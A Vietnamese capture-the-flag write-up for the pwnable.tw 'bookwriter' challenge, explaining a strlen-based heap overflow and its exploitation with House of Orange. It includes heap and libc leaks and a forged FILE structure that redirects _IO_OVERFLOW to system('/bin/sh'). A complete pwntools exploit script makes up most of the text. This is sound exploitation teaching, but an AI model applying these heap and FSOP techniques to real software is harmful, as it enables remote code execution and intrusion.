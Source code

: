 # book writer

## House of Orange

[link](https://github.com/wan-hyhty/Techniques#house-of-orange)

## Phân tích

- Chương trình cho ta các chức năng create, edit, view và không có free
- Ta có heap overflow ở trong edit `store_address[v1] = strlen((&store_chunk)[v1]);`, nghĩa là sau mỗi lần edit nó sẽ cập nhật size bằng strlen() tuy nhiên khi ta khai báo một chunk 0x_8 byte, ta có như sau
  ![Alt text](/bin/image-1.png)
- Khi này strlen đếm cả 3 byte của size top chunk thành 0x_8 + 3
- Tiếp đến ở hàm create ta có thể malloc 9 chunk thay vì 8 và vì store_chunk nằm trên store_size, nên ta có thể hof chunk[0].
- Cuối cùng là do có heap overflow nên ta sẽ khai thác bằng kĩ thuật House of Orange

## Khai thác

```python
def create(size, payload):
        sla(b"choice :", b"1")
        sla(b"page :", str(size).encode())
        sa(b"Content :", payload)
def view(idx):
        sla(b"choice :", b'2')
        sla(b" :", str(idx).encode())
def edit(idx, payload):
        sla(b"choice :", b'3')
        sla(b"page :", str(idx).encode())
        sla(b"tent:", payload)
```

### top chunk -> unsorted bin

```python
create(0x28, b'a') #idx 0

edit(0, b"a" * 0x28)
edit(0, b"\0" * 0x28 + p64(0xfd1))

create(0x1000, b'\0')
```

### leak heap, leak libc

```python
# Leak heap
sla(b"choice :", b'4')
p.recvuntil(b'w'*0x40)
heap = u64(p.recvline(keepends= False).ljust(8, b'\0')) - 0x10
info("Heap: " + hex(heap))
sla(b"no:0)", b"0")


# leak libc
create(0x40, b'a' * 8)
view(2)
p.recvuntil(b'a'*8)
libc.address = u64(p.recvline(keepends= False) + b'\0\0') - 0x3c4188
info("Libc: " + hex(libc.address))
```

- Do ở author và store_chunk cạnh,ta có thể tận dụng việc sử dụng %s để in ra, để leak một địa chỉ chunk trong store_chunk
  ![Alt text](/bin/image.png)
- Còn leak libc là do không xoá data khi ta malloc 1 chunk từ unsorted bin.
  ![Alt text](/bin/image2.png)

### ow size của chunk[0]

- Do là ta cần unsorted bin attack nhưng cần hof nên ta sẽ để ý rằng, nó sẽ kiểm tra ở idx 8 của store_chunk (là idx 0 của store_size) có null không. Vậy ta cần làm chỗ idx 8 null bằng cách edit size chunk[0] là 0 và malloc một chunk mới thì chunk mới ấy sẽ là size của chunk[0]

```python
# ow store_size[0]
for i in range(3, 9):
        create(0x28, b'a' * 0x28)
```

![Alt text](/bin/3.png)

### fsop

```python
f = FileStructure()
f.flags = b'/bin/sh\0'
f._IO_read_ptr = 0x61
f._IO_read_end = 0
f._IO_read_base = libc.sym._IO_list_all - 0x10
f._IO_write_base = 2
f._IO_write_ptr = 3
f.vtable = heap+0x280
edit(0, b'a' * 0x190 + bytes(f) + flat(0, 0, 0, libc.sym.system))
```

- Phần `flat(0, 0, 0, libc.sym.system)` là ta đang fake \_IO_OVERFLOW

## Kết quả

ps: Đôi khi run không được nên chạy 3 4 lần, trên local thì có thể tắt gdb trước khi run.
![Alt text](/bin/4.png)

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('bookwriter_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('chall.pwnable.tw', 10304)
else:
        p = process(exe.path)

GDB()
def create(size, payload):
        sla(b"choice :", b"1")
        sla(b"page :", str(size).encode())
        sa(b"Content :", payload)
def view(idx):
        sla(b"choice :", b'2')
        sla(b" :", str(idx).encode())
def edit(idx, payload):
        sla(b"choice :", b'3')
        sla(b"page :", str(idx).encode())
        sla(b"tent:", payload)


sla(b" :", b"w"*0x40 + b'')
create(0x28, b'a') #idx 0

edit(0, b"a" * 0x28)
edit(0, b"a" * 0x28 + p64(0xfd1))

create(0x1000, b'\0')

# Leak heap
sla(b"choice :", b'4')
p.recvuntil(b'w'*0x40)
heap = u64(p.recvline(keepends= False).ljust(8, b'\0')) - 0x10
info("Heap: " + hex(heap))
sla(b"no:0)", b"0")


# leak libc
create(0x40, b'a' * 8)
view(2)
p.recvuntil(b'a'*8)
libc.address = u64(p.recvline(keepends= False) + b'\0\0') - 0x3c4188
info("Libc: " + hex(libc.address))

# ow store_size[0]
edit(0, b"\0" * 0x28)

for i in range(3, 9):
        create(0x28, b'a' * 0x28)


f = FileStructure()
f.flags = b'/bin/sh\0'
f._IO_read_ptr = 0x61
f._IO_read_end = libc.address
f._IO_read_base = libc.sym._IO_list_all - 0x10
f._IO_write_base = 2
f._IO_write_ptr = 3
f.vtable = heap+0x280
edit(0, b'a' * 0x190 + bytes(f) + flat(0, 0, 0, libc.sym.system))
edit(0, b'\0')
p.recvuntil('Your choice :')
p.sendline(b'1')
p.recvuntil('Size of page :')
p.sendline(b'20')
p.interactive()
```
